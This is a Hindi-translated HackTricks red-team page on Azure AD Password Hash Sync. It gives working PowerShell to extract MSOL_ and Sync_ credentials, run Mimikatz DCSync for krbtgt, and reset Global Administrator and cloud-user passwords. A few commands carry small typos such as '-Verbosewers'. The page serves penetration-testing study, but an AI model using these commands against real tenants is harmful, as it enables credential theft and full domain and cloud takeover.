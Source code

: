 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **पासवर्ड हैश समन्वयन** हाइब्रिड पहचान को पूरा करने के लिए उपयोग किए जाने वाले साइन-इन तरीकों में से एक है। **Azure AD Connect** एक ऑन-प्रिमाइसेस सक्रिय निर्देशिका उदाहरण से एक उपयोगकर्ता के पासवर्ड का हैश, हैश का हैश, एक क्लाउड-आधारित Azure AD उदाहरण में समन्वयित करता है।

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

यह **कंपनियों द्वारा उपयोग किया जाने वाला सबसे सामान्य तरीका** है ताकि ऑन-प्रिम AD को Azure AD के साथ समन्वयित किया जा सके।

सभी **उपयोगकर्ता** और **पासवर्ड हैश का हैश** ऑन-प्रिम से Azure AD में समन्वयित होते हैं। हालाँकि, **स्पष्ट-टेक्स्ट पासवर्ड** या **मूल** **हैश** Azure AD में नहीं भेजे जाते।\
इसके अलावा, **निर्मित** सुरक्षा समूह (जैसे डोमेन प्रशासक...) **Azure AD में समन्वयित नहीं होते**।

**हैश समन्वयन** हर **2 मिनट** में होता है। हालाँकि, डिफ़ॉल्ट रूप से, **पासवर्ड समाप्ति** और **खाता** **समाप्ति** Azure AD में **समन्वयित नहीं होते**। इसलिए, एक उपयोगकर्ता जिसका **ऑन-प्रिम पासवर्ड समाप्त हो गया है** (बदला नहीं गया) वह पुराने पासवर्ड का उपयोग करके **Azure संसाधनों** तक पहुँच जारी रख सकता है।

जब एक ऑन-प्रिम उपयोगकर्ता Azure संसाधन तक पहुँच प्राप्त करना चाहता है, तो **प्रमाणीकरण Azure AD पर होता है**।

**PHS** की आवश्यकता होती है जैसे **पहचान सुरक्षा** और AAD डोमेन सेवाओं के लिए।

## Pivoting

जब PHS कॉन्फ़िगर किया जाता है, तो कुछ **विशिष्ट खाते** स्वचालित रूप से **बनाए जाते हैं**:

* खाता **`MSOL_<installationID>`** स्वचालित रूप से ऑन-प्रिम AD में बनाया जाता है। इस खाते को **डायरेक्टरी समन्वयन खातों** की भूमिका दी जाती है (देखें [दस्तावेज़](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) जिसका अर्थ है कि इसके पास **ऑन-प्रिम AD में पुनरुत्पादन (DCSync) अनुमतियाँ हैं**।
* एक खाता **`Sync_<name of on-prem ADConnect Server>_installationID`** Azure AD में बनाया जाता है। इस खाते को Azure AD में **किसी भी उपयोगकर्ता** (समन्वयित या केवल क्लाउड) का पासवर्ड **रीसेट** करने की अनुमति है।

पिछले दो विशेष खातों के पासवर्ड **SQL सर्वर में** संग्रहीत होते हैं जहाँ **Azure AD Connect स्थापित है।** व्यवस्थापक स्पष्ट-टेक्स्ट में उन विशेष उपयोगकर्ताओं के पासवर्ड निकाल सकते हैं।\
डेटाबेस `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` में स्थित है।

एक टेबल में से कॉन्फ़िगरेशन निकालना संभव है, जिसमें से एक एन्क्रिप्टेड है:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**एन्क्रिप्टेड कॉन्फ़िगरेशन** **DPAPI** के साथ एन्क्रिप्ट किया गया है और इसमें **`MSOL_*`** उपयोगकर्ता के पासवर्ड ऑन-प्रिम AD में और **Sync\_\*** का पासवर्ड AzureAD में शामिल है। इसलिए, इनका समझौता करने से AD और AzureAD में प्रिवेस्क करने की संभावना है।

आप इस टॉक में देख सकते हैं कि ये क्रेडेंशियल्स कैसे संग्रहीत और डिक्रिप्ट किए जाते हैं [यहाँ](https://www.youtube.com/watch?v=JEIR5oGCwdg)।

### Finding the **Azure AD connect server**

यदि **सर्वर जहाँ Azure AD connect स्थापित है** डोमेन से जुड़ा हुआ है (दस्तावेज़ में अनुशंसित), तो इसे निम्नलिखित के साथ खोजा जा सकता है:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* का दुरुपयोग
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
आप [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) का उपयोग करके इन क्रेडेंशियल्स को प्राप्त कर सकते हैं।
{% endhint %}

### Sync\_\* का दुरुपयोग

**`Sync_*`** खाते से समझौता करने पर किसी भी उपयोगकर्ता (जिसमें Global Administrators भी शामिल हैं) का **पासवर्ड रीसेट** करना संभव है।
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
यह भी संभव है कि केवल **क्लाउड** उपयोगकर्ताओं के पासवर्ड को **संशोधित** किया जाए (भले ही यह अप्रत्याशित हो)।
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
यह उपयोगकर्ता का पासवर्ड डंप करना भी संभव है।

{% hint style="danger" %}
एक और विकल्प होगा **एक सेवा प्रमुख को विशेषाधिकार प्राप्त अनुमतियाँ सौंपना**, जिसे **Sync** उपयोगकर्ता **अनुमतियाँ** देने के लिए **अधिकार** रखता है, और फिर **उस सेवा प्रमुख तक पहुँच प्राप्त करना** एक तरीके के रूप में प्रिवेस्क के लिए।
{% endhint %}

### Seamless SSO

PHS के साथ Seamless SSO का उपयोग करना संभव है, जो अन्य दुरुपयोगों के प्रति संवेदनशील है। इसे चेक करें:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) चेक करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें **फॉलो** करें।**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
